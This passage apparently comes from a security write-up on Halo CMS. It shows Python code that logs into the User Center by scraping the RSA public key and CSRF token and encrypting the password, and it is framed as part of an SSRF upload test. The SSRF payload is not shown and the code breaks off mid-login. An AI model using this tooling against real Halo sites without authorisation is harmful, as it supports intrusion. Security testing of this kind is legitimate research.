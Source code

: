 ### Challenge: User Center Authentication

Halo CMS requires sophisticated authentication for User Center access:

1. **RSA Public Key Extraction** from login page JavaScript
2. **Client-side Password Encryption** using RSA PKCS#1 v1.5
3. **CSRF Token Management** from login forms  
4. **Session Cookie Authentication** for API requests

### Solution: Robust Authentication Framework

I developed a comprehensive authentication system:

```python
class HaloSSRFUploadTest:
    def __init__(self, base_url, username, password):
        self.base_url = base_url
        self.username = username
        self.password = password
        self.session = requests.Session()
        self.authenticated = False
        
    def get_rsa_public_key(self):
        """Extract RSA public key from Halo's login page"""
        try:
            response = self.session.get(f"{self.base_url}/console")
            if response.status_code == 200:
                # Parse embedded RSA public key from JavaScript
                key_pattern = r'const publicKey = `([^`]+)`'
                key_match = re.search(key_pattern, response.text)
                if key_match:
                    pem_content = key_match.group(1)
                    return RSA.import_key(pem_content)
        except Exception as e:
            print(f"RSA key extraction failed: {e}")
        return None
        
    def encrypt_password(self, password, public_key):
        """Encrypt password using RSA PKCS#1 v1.5"""
        try:
            cipher = PKCS1_v1_5.new(public_key)
            encrypted_bytes = cipher.encrypt(password.encode('utf-8'))
            return base64.b64encode(encrypted_bytes).decode('utf-8')
        except Exception as e:
            print(f"Password encryption failed: {e}")
            return None

    def get_csrf_token(self):
        """Extract CSRF token from login form"""
        try:
            response = self.session.get(f"{self.base_url}/login")
            if response.status_code == 200:
                soup = BeautifulSoup(response.text, 'html.parser')
                csrf_input = soup.find('input', {'name': '_csrf'})
                if csrf_input:
                    return csrf_input.get('value')
        except Exception as e:
            print(f"CSRF token extraction failed: {e}")
        return None

    def authenticate(self):
        """Perform complete Halo User Center authentication"""
        print("Authenticating to Halo User Center...")

        # Step 1: Extract RSA public key
```